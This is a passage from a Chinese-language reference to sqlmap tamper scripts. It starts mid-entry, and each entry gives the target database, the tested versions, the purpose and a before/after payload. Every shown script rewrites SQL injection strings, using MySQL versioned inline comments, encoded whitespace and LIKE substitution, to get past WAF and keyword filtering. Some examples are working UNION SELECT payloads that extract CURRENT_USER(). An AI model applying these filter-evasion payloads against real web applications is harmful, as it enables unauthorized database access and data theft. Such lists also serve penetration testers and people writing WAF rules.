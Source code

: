 适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
测试通过数据库：MySQL 5.0 and 5.5
作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
使用脚本前：tamper('IFNULL(1, 2)')
使用脚本后：IF(ISNULL(1),2,1)

modsecurityversioned.py

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：过滤空格，使用mysql内联注释的方式进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!30874AND 2>1*/--
space2mysqlblank.py

适用数据库：MySQL
测试通过数据库：MySQL 5.1
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
使用脚本前：tamper('SELECT id FROM users')
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

modsecurityzeroversioned.py

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：使用内联注释方式（/*!00000*/）进行注入
使用脚本前：tamper('1 AND 2>1--')
使用脚本后：1 /*!00000AND 2>1*/--

space2mysqldash.py

适用数据库：MySQL、MSSQL
作用：将空格替换为 -- ，并追随一个换行符
使用脚本前：tamper('1 AND 9227=9227')
使用脚本后：1--%0AAND--%0A9227=9227

bluecoat.py

适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
使用脚本前：tamper('SELECT id FROM users where id = 1')
使用脚本后：SELECT%09id FROM users where id LIKE 1

versionedkeywords.py

适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
作用：注释绕过
使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

halfversionedmorekeywords.py

适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
作用：在每个关键字前添加mysql版本注释
使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa
